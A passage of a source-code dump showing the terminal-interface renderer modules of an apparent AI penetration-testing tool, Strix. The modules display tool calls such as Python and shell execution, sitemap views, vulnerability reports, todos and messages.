    def render(cls, tool_data: dict[str, Any]) -> Static:  # noqa: PLR0912
        args = tool_data.get("args", {})
        result = tool_data.get("result")
        status = tool_data.get("status", "running")

        entry_id = args.get("entry_id", "")

        text = Text()
        text.append(PROXY_ICON, style="dim")
        text.append(" viewing sitemap", style="#06b6d4")

        if entry_id:
            text.append(f" #{_truncate(str(entry_id), 20)}", style="dim")

        if status == "completed" and isinstance(result, dict):
            if "error" in result:
                text.append(f"  error: {_sanitize(str(result['error']), 150)}", style="#ef4444")
            elif "entry" in result:
                entry = result.get("entry") or {}
                if not isinstance(entry, dict):
                    entry = {}
                kind = entry.get("kind", "")
                label = entry.get("label", "")
                related = entry.get("related_requests") or {}
                related_reqs = related.get("requests", []) if isinstance(related, dict) else []
                total_related = related.get("total_count", 0) if isinstance(related, dict) else 0

                if kind and label:
                    text.append(f"  {kind}: {_truncate(label, 120)}", style="dim")

                if total_related:
                    text.append(f"  [{total_related} requests]", style="dim")

                if related_reqs and isinstance(related_reqs, list):
                    text.append("\n")
                    for i, req in enumerate(related_reqs[:10]):
                        if not isinstance(req, dict):
                            continue
                        method = req.get("method", "?")
                        path = req.get("path", "/")
                        code = req.get("status")

                        text.append("  ")
                        text.append(f"{method:6}", style="#a78bfa")
                        text.append(f" {_truncate(path, 180)}", style="dim")
                        if code:
                            text.append(f" {code}", style=_status_style(code))

                        if i < min(len(related_reqs), 10) - 1:
                            text.append("\n")

                    if len(related_reqs) > 10:
                        text.append("\n")
                        text.append(f"  ... +{len(related_reqs) - 10} more", style="dim italic")

        css_classes = cls.get_css_classes(status)
        return Static(text, classes=css_classes)
```

## File: `strix/interface/tool_components/python_renderer.py`
```python
import re
from functools import cache
from typing import Any, ClassVar

from pygments.lexers import PythonLexer
from pygments.styles import get_style_by_name
from rich.text import Text
from textual.widgets import Static

from .base_renderer import BaseToolRenderer
from .registry import register_tool_renderer


MAX_OUTPUT_LINES = 50
MAX_LINE_LENGTH = 200

ANSI_PATTERN = re.compile(r"\x1b(?:[@-Z\\-_]|\[[0-?]*[ -/]*[@-~]|\][^\x07]*\x07)")

STRIP_PATTERNS = [
    r"\.\.\. \[(stdout|stderr|result|output|error) truncated at \d+k? chars\]",
]


@cache
def _get_style_colors() -> dict[Any, str]:
    style = get_style_by_name("native")
    return {token: f"#{style_def['color']}" for token, style_def in style if style_def["color"]}


@cache
def _get_lexer() -> PythonLexer:
    return PythonLexer()


@cache
def _get_token_color(token_type: Any) -> str | None:
    colors = _get_style_colors()
    while token_type:
        if token_type in colors:
            return colors[token_type]
        token_type = token_type.parent
    return None


@register_tool_renderer
class PythonRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "python_action"
    css_classes: ClassVar[list[str]] = ["tool-call", "python-tool"]

    @classmethod
    def _highlight_python(cls, code: str) -> Text:
        text = Text()
        for token_type, token_value in _get_lexer().get_tokens(code):
            if token_value:
                text.append(token_value, style=_get_token_color(token_type))
        return text

    @classmethod
    def _clean_output(cls, output: str) -> str:
        cleaned = output
        for pattern in STRIP_PATTERNS:
            cleaned = re.sub(pattern, "", cleaned)
        return cleaned.strip()

    @classmethod
    def _strip_ansi(cls, text: str) -> str:
        return ANSI_PATTERN.sub("", text)

    @classmethod
    def _truncate_line(cls, line: str) -> str:
        clean_line = cls._strip_ansi(line)
        if len(clean_line) > MAX_LINE_LENGTH:
            return clean_line[: MAX_LINE_LENGTH - 3] + "..."
        return clean_line

    @classmethod
    def _format_output(cls, output: str) -> Text:
        text = Text()
        lines = output.splitlines()
        total_lines = len(lines)

        head_count = MAX_OUTPUT_LINES // 2
        tail_count = MAX_OUTPUT_LINES - head_count - 1

        if total_lines <= MAX_OUTPUT_LINES:
            display_lines = lines
            truncated = False
            hidden_count = 0
        else:
            display_lines = lines[:head_count]
            truncated = True
            hidden_count = total_lines - head_count - tail_count

        for i, line in enumerate(display_lines):
            truncated_line = cls._truncate_line(line)
            text.append("  ")
            text.append(truncated_line, style="dim")
            if i < len(display_lines) - 1 or truncated:
                text.append("\n")

        if truncated:
            text.append(f"  ... {hidden_count} lines truncated ...", style="dim italic")
            text.append("\n")
            tail_lines = lines[-tail_count:]
            for i, line in enumerate(tail_lines):
                truncated_line = cls._truncate_line(line)
                text.append("  ")
                text.append(truncated_line, style="dim")
                if i < len(tail_lines) - 1:
                    text.append("\n")

        return text

    @classmethod
    def _append_output(cls, text: Text, result: dict[str, Any] | str) -> None:
        if isinstance(result, str):
            if result.strip():
                text.append("\n")
                text.append_text(cls._format_output(result))
            return

        stdout = result.get("stdout", "")
        stdout = cls._clean_output(stdout) if stdout else ""

        if stdout:
            text.append("\n")
            formatted_output = cls._format_output(stdout)
            text.append_text(formatted_output)

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        args = tool_data.get("args", {})
        status = tool_data.get("status", "unknown")
        result = tool_data.get("result")

        action = args.get("action", "")
        code = args.get("code", "")

        text = Text()
        text.append("</> ", style="dim")

        if code and action in ["new_session", "execute"]:
            text.append_text(cls._highlight_python(code))
        elif action == "close":
            text.append("Closing session...", style="dim")
        elif action == "list_sessions":
            text.append("Listing sessions...", style="dim")
        else:
            text.append("Running...", style="dim")

        if result and isinstance(result, dict | str):
            cls._append_output(text, result)

        css_classes = cls.get_css_classes(status)
        return Static(text, classes=css_classes)
```

## File: `strix/interface/tool_components/registry.py`
```python
from typing import Any, ClassVar

from rich.text import Text
from textual.widgets import Static

from .base_renderer import BaseToolRenderer


class ToolTUIRegistry:
    _renderers: ClassVar[dict[str, type[BaseToolRenderer]]] = {}

    @classmethod
    def register(cls, renderer_class: type[BaseToolRenderer]) -> None:
        if not renderer_class.tool_name:
            raise ValueError(f"Renderer {renderer_class.__name__} must define tool_name")

        cls._renderers[renderer_class.tool_name] = renderer_class

    @classmethod
    def get_renderer(cls, tool_name: str) -> type[BaseToolRenderer] | None:
        return cls._renderers.get(tool_name)

    @classmethod
    def list_tools(cls) -> list[str]:
        return list(cls._renderers.keys())

    @classmethod
    def has_renderer(cls, tool_name: str) -> bool:
        return tool_name in cls._renderers


def register_tool_renderer(renderer_class: type[BaseToolRenderer]) -> type[BaseToolRenderer]:
    ToolTUIRegistry.register(renderer_class)
    return renderer_class


def get_tool_renderer(tool_name: str) -> type[BaseToolRenderer] | None:
    return ToolTUIRegistry.get_renderer(tool_name)


def render_tool_widget(tool_data: dict[str, Any]) -> Static:
    tool_name = tool_data.get("tool_name", "")
    renderer = get_tool_renderer(tool_name)

    if renderer:
        return renderer.render(tool_data)
    return _render_default_tool_widget(tool_data)


def _render_default_tool_widget(tool_data: dict[str, Any]) -> Static:
    tool_name = tool_data.get("tool_name", "Unknown Tool")
    args = tool_data.get("args", {})
    status = tool_data.get("status", "unknown")
    result = tool_data.get("result")

    text = Text()

    text.append("→ Using tool ", style="dim")
    text.append(tool_name, style="bold blue")
    text.append("\n")

    for k, v in list(args.items()):
        str_v = str(v)
        text.append("  ")
        text.append(k, style="dim")
        text.append(": ")
        text.append(str_v)
        text.append("\n")

    if status in ["completed", "failed", "error"] and result is not None:
        result_str = str(result)
        text.append("Result: ", style="bold")
        text.append(result_str)
    else:
        icon, color = BaseToolRenderer.status_icon(status)
        text.append(icon, style=color)

    css_classes = BaseToolRenderer.get_css_classes(status)
    return Static(text, classes=css_classes)
```

## File: `strix/interface/tool_components/reporting_renderer.py`
```python
from functools import cache
from typing import Any, ClassVar

from pygments.lexers import PythonLexer
from pygments.styles import get_style_by_name
from rich.text import Text
from textual.widgets import Static

from strix.tools.reporting.reporting_actions import (
    parse_code_locations_xml,
    parse_cvss_xml,
)

from .base_renderer import BaseToolRenderer
from .registry import register_tool_renderer


@cache
def _get_style_colors() -> dict[Any, str]:
    style = get_style_by_name("native")
    return {token: f"#{style_def['color']}" for token, style_def in style if style_def["color"]}


FIELD_STYLE = "bold #4ade80"
DIM_STYLE = "dim"
FILE_STYLE = "bold #60a5fa"
LINE_STYLE = "#facc15"
LABEL_STYLE = "italic #a1a1aa"
CODE_STYLE = "#e2e8f0"
BEFORE_STYLE = "#ef4444"
AFTER_STYLE = "#22c55e"


@register_tool_renderer
class CreateVulnerabilityReportRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "create_vulnerability_report"
    css_classes: ClassVar[list[str]] = ["tool-call", "reporting-tool"]

    SEVERITY_COLORS: ClassVar[dict[str, str]] = {
        "critical": "#dc2626",
        "high": "#ea580c",
        "medium": "#d97706",
        "low": "#65a30d",
        "info": "#0284c7",
    }

    @classmethod
    def _get_token_color(cls, token_type: Any) -> str | None:
        colors = _get_style_colors()
        while token_type:
            if token_type in colors:
                return colors[token_type]
            token_type = token_type.parent
        return None

    @classmethod
    def _highlight_python(cls, code: str) -> Text:
        lexer = PythonLexer()
        text = Text()

        for token_type, token_value in lexer.get_tokens(code):
            if not token_value:
                continue
            color = cls._get_token_color(token_type)
            text.append(token_value, style=color)

        return text

    @classmethod
    def _get_cvss_color(cls, cvss_score: float) -> str:
        if cvss_score >= 9.0:
            return "#dc2626"
        if cvss_score >= 7.0:
            return "#ea580c"
        if cvss_score >= 4.0:
            return "#d97706"
        if cvss_score >= 0.1:
            return "#65a30d"
        return "#6b7280"

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:  # noqa: PLR0912, PLR0915
        args = tool_data.get("args", {})
        result = tool_data.get("result", {})

        title = args.get("title", "")
        description = args.get("description", "")
        impact = args.get("impact", "")
        target = args.get("target", "")
        technical_analysis = args.get("technical_analysis", "")
        poc_description = args.get("poc_description", "")
        poc_script_code = args.get("poc_script_code", "")
        remediation_steps = args.get("remediation_steps", "")

        cvss_breakdown_xml = args.get("cvss_breakdown", "")
        code_locations_xml = args.get("code_locations", "")

        endpoint = args.get("endpoint", "")
        method = args.get("method", "")
        cve = args.get("cve", "")
        cwe = args.get("cwe", "")

        severity = ""
        cvss_score = None
        if isinstance(result, dict):
            severity = result.get("severity", "")
            cvss_score = result.get("cvss_score")

        text = Text()
        text.append("🐞 ")
        text.append("Vulnerability Report", style="bold #ea580c")

        if title:
            text.append("\n\n")
            text.append("Title: ", style=FIELD_STYLE)
            text.append(title)

        if severity:
            text.append("\n\n")
            text.append("Severity: ", style=FIELD_STYLE)
            severity_color = cls.SEVERITY_COLORS.get(severity.lower(), "#6b7280")
            text.append(severity.upper(), style=f"bold {severity_color}")

        if cvss_score is not None:
            text.append("\n\n")
            text.append("CVSS Score: ", style=FIELD_STYLE)
            cvss_color = cls._get_cvss_color(cvss_score)
            text.append(str(cvss_score), style=f"bold {cvss_color}")

        if target:
            text.append("\n\n")
            text.append("Target: ", style=FIELD_STYLE)
            text.append(target)

        if endpoint:
            text.append("\n\n")
            text.append("Endpoint: ", style=FIELD_STYLE)
            text.append(endpoint)

        if method:
            text.append("\n\n")
            text.append("Method: ", style=FIELD_STYLE)
            text.append(method)

        if cve:
            text.append("\n\n")
            text.append("CVE: ", style=FIELD_STYLE)
            text.append(cve)

        if cwe:
            text.append("\n\n")
            text.append("CWE: ", style=FIELD_STYLE)
            text.append(cwe)

        parsed_cvss = parse_cvss_xml(cvss_breakdown_xml) if cvss_breakdown_xml else None
        if parsed_cvss:
            text.append("\n\n")
            cvss_parts = []
            for key, prefix in [
                ("attack_vector", "AV"),
                ("attack_complexity", "AC"),
                ("privileges_required", "PR"),
                ("user_interaction", "UI"),
                ("scope", "S"),
                ("confidentiality", "C"),
                ("integrity", "I"),
                ("availability", "A"),
            ]:
                val = parsed_cvss.get(key)
                if val:
                    cvss_parts.append(f"{prefix}:{val}")
            text.append("CVSS Vector: ", style=FIELD_STYLE)
            text.append("/".join(cvss_parts), style=DIM_STYLE)

        if description:
            text.append("\n\n")
            text.append("Description", style=FIELD_STYLE)
            text.append("\n")
            text.append(description)

        if impact:
            text.append("\n\n")
            text.append("Impact", style=FIELD_STYLE)
            text.append("\n")
            text.append(impact)

        if technical_analysis:
            text.append("\n\n")
            text.append("Technical Analysis", style=FIELD_STYLE)
            text.append("\n")
            text.append(technical_analysis)

        parsed_locations = (
            parse_code_locations_xml(code_locations_xml) if code_locations_xml else None
        )
        if parsed_locations:
            text.append("\n\n")
            text.append("Code Locations", style=FIELD_STYLE)
            for i, loc in enumerate(parsed_locations):
                text.append("\n\n")
                text.append(f"  Location {i + 1}: ", style=DIM_STYLE)
                text.append(loc.get("file", "unknown"), style=FILE_STYLE)
                start = loc.get("start_line")
                end = loc.get("end_line")
                if start is not None:
                    if end and end != start:
                        text.append(f":{start}-{end}", style=LINE_STYLE)
                    else:
                        text.append(f":{start}", style=LINE_STYLE)
                if loc.get("label"):
                    text.append(f"\n  {loc['label']}", style=LABEL_STYLE)
                if loc.get("snippet"):
                    text.append("\n  ")
                    text.append(loc["snippet"], style=CODE_STYLE)
                if loc.get("fix_before") or loc.get("fix_after"):
                    text.append("\n  ")
                    text.append("Fix:", style=DIM_STYLE)
                    if loc.get("fix_before"):
                        text.append("\n  ")
                        text.append("- ", style=BEFORE_STYLE)
                        text.append(loc["fix_before"], style=BEFORE_STYLE)
                    if loc.get("fix_after"):
                        text.append("\n  ")
                        text.append("+ ", style=AFTER_STYLE)
                        text.append(loc["fix_after"], style=AFTER_STYLE)

        if poc_description:
            text.append("\n\n")
            text.append("PoC Description", style=FIELD_STYLE)
            text.append("\n")
            text.append(poc_description)

        if poc_script_code:
            text.append("\n\n")
            text.append("PoC Code", style=FIELD_STYLE)
            text.append("\n")
            text.append_text(cls._highlight_python(poc_script_code))

        if remediation_steps:
            text.append("\n\n")
            text.append("Remediation", style=FIELD_STYLE)
            text.append("\n")
            text.append(remediation_steps)

        if not title:
            text.append("\n  ")
            text.append("Creating report...", style="dim")

        padded = Text()
        padded.append("\n\n")
        padded.append_text(text)
        padded.append("\n\n")

        css_classes = cls.get_css_classes("completed")
        return Static(padded, classes=css_classes)
```

## File: `strix/interface/tool_components/scan_info_renderer.py`
```python
from typing import Any, ClassVar

from rich.text import Text
from textual.widgets import Static

from .base_renderer import BaseToolRenderer
from .registry import register_tool_renderer


@register_tool_renderer
class ScanStartInfoRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "scan_start_info"
    css_classes: ClassVar[list[str]] = ["tool-call", "scan-info-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        args = tool_data.get("args", {})
        status = tool_data.get("status", "unknown")
        targets = args.get("targets", [])

        text = Text()
        text.append("◈ ", style="#22c55e")
        text.append("Starting penetration test")

        if len(targets) == 1:
            text.append(" on ")
            text.append(cls._get_target_display(targets[0]))
        elif len(targets) > 1:
            text.append(f" on {len(targets)} targets")
            for target_info in targets:
                text.append("\n   • ")
                text.append(cls._get_target_display(target_info))

        css_classes = cls.get_css_classes(status)
        return Static(text, classes=css_classes)

    @classmethod
    def _get_target_display(cls, target_info: dict[str, Any]) -> str:
        original = target_info.get("original")
        if original:
            return str(original)
        return "unknown target"


@register_tool_renderer
class SubagentStartInfoRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "subagent_start_info"
    css_classes: ClassVar[list[str]] = ["tool-call", "subagent-info-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        args = tool_data.get("args", {})
        status = tool_data.get("status", "unknown")

        name = str(args.get("name", "Unknown Agent"))
        task = str(args.get("task", ""))

        text = Text()
        text.append("◈ ", style="#a78bfa")
        text.append("subagent ", style="dim")
        text.append(name, style="bold #a78bfa")

        if task:
            text.append("\n  ")
            text.append(task, style="dim")

        css_classes = cls.get_css_classes(status)
        return Static(text, classes=css_classes)
```

## File: `strix/interface/tool_components/terminal_renderer.py`
```python
import re
from functools import cache
from typing import Any, ClassVar

from pygments.lexers import get_lexer_by_name
from pygments.styles import get_style_by_name
from rich.text import Text
from textual.widgets import Static

from .base_renderer import BaseToolRenderer
from .registry import register_tool_renderer


MAX_OUTPUT_LINES = 50
MAX_LINE_LENGTH = 200

STRIP_PATTERNS = [
    (
        r"\n?\[Command still running after [\d.]+s - showing output so far\.?"
        r"\s*(?:Use C-c to interrupt if needed\.)?\]"
    ),
    r"^\[Below is the output of the previous command\.\]\n?",
    r"^No command is currently running\. Cannot send input\.$",
    (
        r"^A command is already running\. Use is_input=true to send input to it, "
        r"or interrupt it first \(e\.g\., with C-c\)\.$"
    ),
]


@cache
def _get_style_colors() -> dict[Any, str]:
    style = get_style_by_name("native")
    return {token: f"#{style_def['color']}" for token, style_def in style if style_def["color"]}


@register_tool_renderer
class TerminalRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "terminal_execute"
    css_classes: ClassVar[list[str]] = ["tool-call", "terminal-tool"]

    CONTROL_SEQUENCES: ClassVar[set[str]] = {
        "C-c",
        "C-d",
        "C-z",
        "C-a",
        "C-e",
        "C-k",
        "C-l",
        "C-u",
        "C-w",
        "C-r",
        "C-s",
        "C-t",
        "C-y",
        "^c",
        "^d",
        "^z",
        "^a",
        "^e",
        "^k",
        "^l",
        "^u",
        "^w",
        "^r",
        "^s",
        "^t",
        "^y",
    }
    SPECIAL_KEYS: ClassVar[set[str]] = {
        "Enter",
        "Escape",
        "Space",
        "Tab",
        "BTab",
        "BSpace",
        "DC",
        "IC",
        "Up",
        "Down",
        "Left",
        "Right",
        "Home",
        "End",
        "PageUp",
        "PageDown",
        "PgUp",
        "PgDn",
        "PPage",
        "NPage",
        "F1",
        "F2",
        "F3",
        "F4",
        "F5",
        "F6",
        "F7",
        "F8",
        "F9",
        "F10",
        "F11",
        "F12",
    }

    @classmethod
    def _get_token_color(cls, token_type: Any) -> str | None:
        colors = _get_style_colors()
        while token_type:
            if token_type in colors:
                return colors[token_type]
            token_type = token_type.parent
        return None

    @classmethod
    def _highlight_bash(cls, code: str) -> Text:
        lexer = get_lexer_by_name("bash")
        text = Text()

        for token_type, token_value in lexer.get_tokens(code):
            if not token_value:
                continue
            color = cls._get_token_color(token_type)
            text.append(token_value, style=color)

        return text

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        args = tool_data.get("args", {})
        status = tool_data.get("status", "unknown")
        result = tool_data.get("result")

        command = args.get("command", "")
        is_input = args.get("is_input", False)

        content = cls._build_content(command, is_input, status, result)

        css_classes = cls.get_css_classes(status)
        return Static(content, classes=css_classes)

    @classmethod
    def _build_content(
        cls, command: str, is_input: bool, status: str, result: dict[str, Any] | str | None
    ) -> Text:
        text = Text()
        terminal_icon = ">_"

        if not command.strip():
            text.append(terminal_icon, style="dim")
            text.append(" ")
            text.append("getting logs...", style="dim")
            if result:
                cls._append_output(text, result, status, command)
            return text

        is_special = (
            command in cls.CONTROL_SEQUENCES
            or command in cls.SPECIAL_KEYS
            or command.startswith(("M-", "S-", "C-S-", "C-M-", "S-M-"))
        )

        text.append(terminal_icon, style="dim")
        text.append(" ")

        if is_special:
            text.append(command, style="#ef4444")
        elif is_input:
            text.append(">>>", style="#3b82f6")
            text.append(" ")
            text.append_text(cls._format_command(command))
        else:
            text.append("$", style="#22c55e")
            text.append(" ")
            text.append_text(cls._format_command(command))

        if result:
            cls._append_output(text, result, status, command)

        return text

    @classmethod
    def _clean_output(cls, output: str, command: str = "") -> str:
        cleaned = output

        for pattern in STRIP_PATTERNS:
            cleaned = re.sub(pattern, "", cleaned, flags=re.MULTILINE)

        if cleaned.strip():
            lines = cleaned.splitlines()
            filtered_lines: list[str] = []
            for line in lines:
                if not filtered_lines and not line.strip():
                    continue
                if re.match(r"^\[STRIX_\d+\]\$\s*", line):
                    continue
                if command and line.strip() == command.strip():
                    continue
                if command and re.match(r"^[\$#>]\s*" + re.escape(command.strip()) + r"\s*$", line):
                    continue
                filtered_lines.append(line)

            while filtered_lines and re.match(r"^\[STRIX_\d+\]\$\s*", filtered_lines[-1]):
                filtered_lines.pop()

            cleaned = "\n".join(filtered_lines)

        return cleaned.strip()

    @classmethod
    def _append_output(
        cls, text: Text, result: dict[str, Any] | str, tool_status: str, command: str = ""
    ) -> None:
        if isinstance(result, str):
            if result.strip():
                text.append("\n")
                text.append_text(cls._format_output(result))
            return

        raw_output = result.get("content", "")
        output = cls._clean_output(raw_output, command)
        error = result.get("error")
        exit_code = result.get("exit_code")
        result_status = result.get("status", "")

        if error and not cls._is_status_message(error):
            text.append("\n")
            text.append("  error: ", style="bold #ef4444")
            text.append(cls._truncate_line(error), style="#ef4444")
            return

        if result_status == "running" or tool_status == "running":
            if output and output.strip():
                text.append("\n")
                formatted_output = cls._format_output(output)
                text.append_text(formatted_output)
            return

        if not output or not output.strip():
            if exit_code is not None and exit_code != 0:
                text.append("\n")
                text.append(f"  exit {exit_code}", style="dim #ef4444")
            return

        text.append("\n")
        formatted_output = cls._format_output(output)
        text.append_text(formatted_output)

        if exit_code is not None and exit_code != 0:
            text.append("\n")
            text.append(f"  exit {exit_code}", style="dim #ef4444")

    @classmethod
    def _is_status_message(cls, message: str) -> bool:
        status_patterns = [
            r"No command is currently running",
            r"A command is already running",
            r"Cannot send input",
            r"Use is_input=true",
            r"Use C-c to interrupt",
            r"showing output so far",
        ]
        return any(re.search(pattern, message) for pattern in status_patterns)

    @classmethod
    def _format_output(cls, output: str) -> Text:
        text = Text()
        lines = output.splitlines()
        total_lines = len(lines)

        head_count = MAX_OUTPUT_LINES // 2
        tail_count = MAX_OUTPUT_LINES - head_count - 1

        if total_lines <= MAX_OUTPUT_LINES:
            display_lines = lines
            truncated = False
            hidden_count = 0
        else:
            display_lines = lines[:head_count]
            truncated = True
            hidden_count = total_lines - head_count - tail_count

        for i, line in enumerate(display_lines):
            truncated_line = cls._truncate_line(line)
            text.append("  ")
            text.append(truncated_line, style="dim")
            if i < len(display_lines) - 1 or truncated:
                text.append("\n")

        if truncated:
            text.append(f"  ... {hidden_count} lines truncated ...", style="dim italic")
            text.append("\n")
            tail_lines = lines[-tail_count:]
            for i, line in enumerate(tail_lines):
                truncated_line = cls._truncate_line(line)
                text.append("  ")
                text.append(truncated_line, style="dim")
                if i < len(tail_lines) - 1:
                    text.append("\n")

        return text

    @classmethod
    def _truncate_line(cls, line: str) -> str:
        clean_line = re.sub(r"\x1b\[[0-9;]*m", "", line)
        if len(clean_line) > MAX_LINE_LENGTH:
            return line[: MAX_LINE_LENGTH - 3] + "..."
        return line

    @classmethod
    def _format_command(cls, command: str) -> Text:
        return cls._highlight_bash(command)
```

## File: `strix/interface/tool_components/thinking_renderer.py`
```python
from typing import Any, ClassVar

from rich.text import Text
from textual.widgets import Static

from .base_renderer import BaseToolRenderer
from .registry import register_tool_renderer


@register_tool_renderer
class ThinkRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "think"
    css_classes: ClassVar[list[str]] = ["tool-call", "thinking-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        args = tool_data.get("args", {})
        thought = args.get("thought", "")

        text = Text()
        text.append("🧠 ")
        text.append("Thinking", style="bold #a855f7")
        text.append("\n  ")

        if thought:
            text.append(thought, style="italic dim")
        else:
            text.append("Thinking...", style="italic dim")

        css_classes = cls.get_css_classes("completed")
        return Static(text, classes=css_classes)
```

## File: `strix/interface/tool_components/todo_renderer.py`
```python
from typing import Any, ClassVar

from rich.text import Text
from textual.widgets import Static

from .base_renderer import BaseToolRenderer
from .registry import register_tool_renderer


STATUS_MARKERS: dict[str, str] = {
    "pending": "[ ]",
    "in_progress": "[~]",
    "done": "[•]",
}


def _format_todo_lines(text: Text, result: dict[str, Any]) -> None:
    todos = result.get("todos")
    if not isinstance(todos, list) or not todos:
        text.append("\n  ")
        text.append("No todos", style="dim")
        return

    for todo in todos:
        status = todo.get("status", "pending")
        marker = STATUS_MARKERS.get(status, STATUS_MARKERS["pending"])

        title = todo.get("title", "").strip() or "(untitled)"

        text.append("\n  ")
        text.append(marker)
        text.append(" ")

        if status == "done":
            text.append(title, style="dim strike")
        elif status == "in_progress":
            text.append(title, style="italic")
        else:
            text.append(title)


@register_tool_renderer
class CreateTodoRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "create_todo"
    css_classes: ClassVar[list[str]] = ["tool-call", "todo-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        result = tool_data.get("result")

        text = Text()
        text.append("📋 ")
        text.append("Todo", style="bold #a78bfa")

        if isinstance(result, str) and result.strip():
            text.append("\n  ")
            text.append(result.strip(), style="dim")
        elif result and isinstance(result, dict):
            if result.get("success"):
                _format_todo_lines(text, result)
            else:
                error = result.get("error", "Failed to create todo")
                text.append("\n  ")
                text.append(error, style="#ef4444")
        else:
            text.append("\n  ")
            text.append("Creating...", style="dim")

        css_classes = cls.get_css_classes("completed")
        return Static(text, classes=css_classes)


@register_tool_renderer
class ListTodosRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "list_todos"
    css_classes: ClassVar[list[str]] = ["tool-call", "todo-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        result = tool_data.get("result")

        text = Text()
        text.append("📋 ")
        text.append("Todos", style="bold #a78bfa")

        if isinstance(result, str) and result.strip():
            text.append("\n  ")
            text.append(result.strip(), style="dim")
        elif result and isinstance(result, dict):
            if result.get("success"):
                _format_todo_lines(text, result)
            else:
                error = result.get("error", "Unable to list todos")
                text.append("\n  ")
                text.append(error, style="#ef4444")
        else:
            text.append("\n  ")
            text.append("Loading...", style="dim")

        css_classes = cls.get_css_classes("completed")
        return Static(text, classes=css_classes)


@register_tool_renderer
class UpdateTodoRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "update_todo"
    css_classes: ClassVar[list[str]] = ["tool-call", "todo-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        result = tool_data.get("result")

        text = Text()
        text.append("📋 ")
        text.append("Todo Updated", style="bold #a78bfa")

        if isinstance(result, str) and result.strip():
            text.append("\n  ")
            text.append(result.strip(), style="dim")
        elif result and isinstance(result, dict):
            if result.get("success"):
                _format_todo_lines(text, result)
            else:
                error = result.get("error", "Failed to update todo")
                text.append("\n  ")
                text.append(error, style="#ef4444")
        else:
            text.append("\n  ")
            text.append("Updating...", style="dim")

        css_classes = cls.get_css_classes("completed")
        return Static(text, classes=css_classes)


@register_tool_renderer
class MarkTodoDoneRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "mark_todo_done"
    css_classes: ClassVar[list[str]] = ["tool-call", "todo-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        result = tool_data.get("result")

        text = Text()
        text.append("📋 ")
        text.append("Todo Completed", style="bold #a78bfa")

        if isinstance(result, str) and result.strip():
            text.append("\n  ")
            text.append(result.strip(), style="dim")
        elif result and isinstance(result, dict):
            if result.get("success"):
                _format_todo_lines(text, result)
            else:
                error = result.get("error", "Failed to mark todo done")
                text.append("\n  ")
                text.append(error, style="#ef4444")
        else:
            text.append("\n  ")
            text.append("Marking done...", style="dim")

        css_classes = cls.get_css_classes("completed")
        return Static(text, classes=css_classes)


@register_tool_renderer
class MarkTodoPendingRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "mark_todo_pending"
    css_classes: ClassVar[list[str]] = ["tool-call", "todo-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        result = tool_data.get("result")

        text = Text()
        text.append("📋 ")
        text.append("Todo Reopened", style="bold #f59e0b")

        if isinstance(result, str) and result.strip():
            text.append("\n  ")
            text.append(result.strip(), style="dim")
        elif result and isinstance(result, dict):
            if result.get("success"):
                _format_todo_lines(text, result)
            else:
                error = result.get("error", "Failed to reopen todo")
                text.append("\n  ")
                text.append(error, style="#ef4444")
        else:
            text.append("\n  ")
            text.append("Reopening...", style="dim")

        css_classes = cls.get_css_classes("completed")
        return Static(text, classes=css_classes)


@register_tool_renderer
class DeleteTodoRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "delete_todo"
    css_classes: ClassVar[list[str]] = ["tool-call", "todo-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        result = tool_data.get("result")

        text = Text()
        text.append("📋 ")
        text.append("Todo Removed", style="bold #94a3b8")

        if isinstance(result, str) and result.strip():
            text.append("\n  ")
            text.append(result.strip(), style="dim")
        elif result and isinstance(result, dict):
            if result.get("success"):
                _format_todo_lines(text, result)
            else:
                error = result.get("error", "Failed to remove todo")
                text.append("\n  ")
                text.append(error, style="#ef4444")
        else:
            text.append("\n  ")
            text.append("Removing...", style="dim")

        css_classes = cls.get_css_classes("completed")
        return Static(text, classes=css_classes)
```

## File: `strix/interface/tool_components/user_message_renderer.py`
```python
from typing import Any, ClassVar

from rich.text import Text
from textual.widgets import Static

from .base_renderer import BaseToolRenderer
from .registry import register_tool_renderer


@register_tool_renderer
class UserMessageRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "user_message"
    css_classes: ClassVar[list[str]] = ["chat-message", "user-message"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        content = tool_data.get("content", "")

        if not content:
            return Static(Text(), classes=" ".join(cls.css_classes))

        styled_text = cls._format_user_message(content)

        return Static(styled_text, classes=" ".join(cls.css_classes))

    @classmethod
    def render_simple(cls, content: str) -> Text:
        if not content:
            return Text()

        return cls._format_user_message(content)

    @classmethod
    def _format_user_message(cls, content: str) -> Text:
        text = Text()

        text.append("▍", style="#3b82f6")
        text.append(" ")
        text.append("You:", style="bold")
        text.append("\n")

        lines = content.split("\n")
        for i, line in enumerate(lines):
            if i > 0:
                text.append("\n")
            text.append("▍", style="#3b82f6")
            text.append(" ")
            text.append(line)

        return text
```

## File: `strix/interface/tool_components/web_search_renderer.py`
```python
from typing import Any, ClassVar

from rich.text import Text
from textual.widgets import Static

from .base_renderer import BaseToolRenderer
from .registry import register_tool_renderer


@register_tool_renderer
class WebSearchRenderer(BaseToolRenderer):
    tool_name: ClassVar[str] = "web_search"
